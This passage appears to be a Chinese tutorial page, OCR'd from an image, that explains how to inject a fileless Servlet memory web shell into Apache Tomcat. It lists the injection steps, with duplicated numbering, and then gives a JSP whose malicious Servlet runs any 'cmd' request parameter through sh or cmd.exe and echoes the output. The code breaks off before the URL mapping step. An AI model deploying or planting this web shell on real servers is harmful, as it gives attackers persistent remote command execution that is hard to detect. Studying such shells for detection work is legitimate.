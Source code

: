 **Servlet内存马实现步骤：**
1. 找到StandardContext
2. 创建恶意Servlet
3. 用Wrapper对其进行封装
2. 添加封装后的恶意Wrapper到StandardContext的children当中
3. 添加ServletMapping将访问的URL和Servlet进行绑定 


最后的jsp内存马如下：
```java
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.PrintWriter" %>

<%
    // 创建恶意Servlet
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };

    // 获取StandardContext
    org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =(org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();

    // 用Wrapper对其进行封装
    org.apache.catalina.Wrapper newWrapper = standardCtx.createWrapper();
    // 新增servlet
```